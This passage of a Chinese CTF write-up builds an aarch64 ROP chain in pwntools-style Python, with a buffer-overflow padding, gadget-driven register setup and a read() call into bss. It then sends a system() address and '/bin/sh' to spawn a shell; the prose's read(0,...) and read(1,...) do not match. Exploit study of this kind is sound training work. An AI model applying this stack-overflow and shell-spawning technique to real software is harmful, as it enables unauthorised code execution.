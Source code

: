 获取了 libc 基址后，我们就可以布置`read(0,bss+0x100,0x20)`​来送入 shellcode

```bash
pl = b'a'*0x88 + p64(g1) #x29  x30
pl+= p64(main) + p64(0x100000000) 
pl+= p64(0) + p64(g2) #g1: x29   x30
pl+= p64(0) + p64(1) #g1: x19 --0   x20 --1
pl+= p64(elf.got['read']) + p64(0) #g1: x21 --addr  x22 --x0
pl+= p64(bss1) + p64(0x20) #g1: x23 --x1  x24 --x2
pl+= p64(0) + p64(main) #x29   x30
```

pl 送入

[![](assets/1700442742-296520e10233ca3f9cbf97a892896473.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117183806-648c299a-8535-1.png)

g1 执行完

[![](assets/1700442742-7a737a1d22902f01db0ec0a0ffa60e77.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117183809-66493750-8535-1.png)

g2 执行完

[![](assets/1700442742-141085cb7b4e81635147db8fc17b6c14.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117183812-6896fcae-8535-1.png)

布置好了`read(1,bss+0x100,0x20)`​后，将 shellcode 送入

```bash
pause()
p.sendline(p64(system)+b'/bin/sh\x00')
```
